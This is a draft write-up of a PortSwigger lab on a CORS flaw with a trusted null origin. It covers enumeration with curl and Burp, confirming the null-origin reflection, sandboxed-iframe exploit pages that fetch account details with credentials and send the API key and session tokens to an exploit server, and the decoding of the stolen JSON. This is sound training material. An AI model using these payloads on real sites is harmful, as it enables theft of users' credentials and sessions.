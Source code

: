 ```yaml
--- 
title: "CORS Vulnerability With Trusted Null Origin"
author: ""
date: 2024-02-27T14:02:05+01:00
description: ""
draft: true
disableComments: false
categories: []
series: [] #Taxonomy to list "See Also" Section in Opengraph Templates
tags: []
slug: ""
summary: ""
---
```

#### Entities
Asset: https://0a670032044b5555803fcb6d009700d4.web-security-academy.net

#### Enumeration
Access the lab, add the domain - without the protocol scheme - to Burp's Target scope and check `Include subdomains`. Then create a New Scan of Crawl and Audit - Balanced on `/` route and add given credentials `wiener:peter` for exploring the application authenticated. View `/` route source page and inspect the page and all embedded links via a script.
```shell
# inspect `/` route and embedded links via Burp's Proxy
URL="https://0a670032044b5555803fcb6d009700d4.web-security-academy.net"
for path in $(curl -s $URL | grep -o 'href="[^"]*"' | cut -d'"' -f2); do
  echo "$(curl -skL -x 127.0.0.1:8080 -w "%{http_code} %{url_effective} -> %{redirect_url}" -o /dev/null $URL$path)"
done
```
View result on Burp Proxy's HTTP history, and with FoxyProxy Browser Extension configured for Burp turned on - not the Burp Proxy intercept - browse through the URLs that sticks out, hitting all possible resource you can find. The `/my-account` route which redirects to the `/login` when requested with valid credentials makes a POST request with an `Origin` header; `csrf`, `username` and `password` parameters and a GET request for `/accountDetails` after the login which shows sensitive credentials in the response with the `Access-Control-Allow-Credentials: true` set.

![Enumeration](/images/cors2/01-enumerate-index-route.png)  

#### Exploration
Armed with this insight, send the GET `/accountDetails` to Burp Repeater. Verify a CORS flaw at `/accountDetails` by removing the `Referer` header and adding an `Origin` header switching the value to an arbitrary domain, then null and observe the response reflected the `Access-Control-Allow-Origin` null value. 

![Exploration](/images/cors2/02-explore-null-as-origin.png) 

Now exploit yourself while logged in with the below script.

#### Exploitation
Now exploit yourself while logged in with the below script using the iframe sandbox attribute to simulate null origin.
```shell
<html lang="en">
<body>
  <iframe sandbox="allow-scripts" srcdoc="
    <script>
      async function exploitCORS() {
        const appURL = 'https://0a670032044b5555803fcb6d009700d4.web-security-academy.net/accountDetails';
        const exploitServer = 'http://localhost:8000';
        const response = await fetch(appURL, { credentials: 'include' });
        const data = await response.json();
        fetch(exploitServer + `/?log=${JSON.stringify(data)}`);
      }
      exploitCORS();
    </script>
  "></iframe>
</body>
</html>
```
Start a local server with `python3 -m http.server -b 127.0.0.1 8000 -d .` from within the directory where the above script is saved as index.html. Then run `google-chrome http://127.0.0.1:8000` and see your own credential displayed.

The condition for exploiting this flaw is that the target victim must be logged into their account, such that when they click the payload delivered to them, it gets the content of `/accountDetails` and logs that request to attacker's server. It is important to note that the PortSwigger lab simulates delivering the payload to the target victim and the response received at `/log` path of the exploit server. However in engagement the payload is usually set as a link in seemingly harmless articles or social media post.  
```shell
<html lang="en">
<body>
  <iframe style="display: none;" sandbox="allow-scripts" srcdoc="
  <script>
    var appServer = 'https://0a670032044b5555803fcb6d009700d4.web-security-academy.net'
    var exploitServer = 'https://exploit-0ace0046041055ef8007caf8011c0096.exploit-server.net'
    var xhr = new XMLHttpRequest();
    xhr.open('GET', appServer + '/accountDetails', true);
    xhr.withCredentials = true;
    xhr.onreadystatechange = function() {
      if (xhr.readyState == XMLHttpRequest.DONE && xhr.status == 200) {
        fetch(exploitServer + '/log=' + xhr.responseText)
      }
    };
    xhr.send();
  </script>
  "></iframe>
</body>
</html>
```
Paste the above on the exploit server and deliver exploit to victim.  

![Exploitation](/images/cors2/03-exploit-null-as-origin.png) 

#### Exfiltration
Access the exploit server log and copy the value of `/log=` path. Now run it through a url decoder to extract the apikey.  

![Exfiltration](/images/cors2/04-exfiltrate-null-as-origin-spoil.png) 
```shell
urlencode -d '%7B%20%20%22username%22:%20%22administrator%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22:%20%22SeXyl9sj6fIzmk04GGkz7MBPDlfmgDtv%22,%20%20%22sessions%22:%20[%20%20%20%20%22Q8Vn273xIb5fPY7NWmQHW1a1o7SXuJaz%22%20%20]%7D' | jq . | tee cors-vulnerability-with-trusted-null-origin-spoil.json
```
![Solution](/images/cors2/05-lab-solution.png)   

#### Resources
- https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack
- https://github.com/knoxknot/portswigger/tree/main/cors/02-cors-vulnerability-with-trusted-null-origin
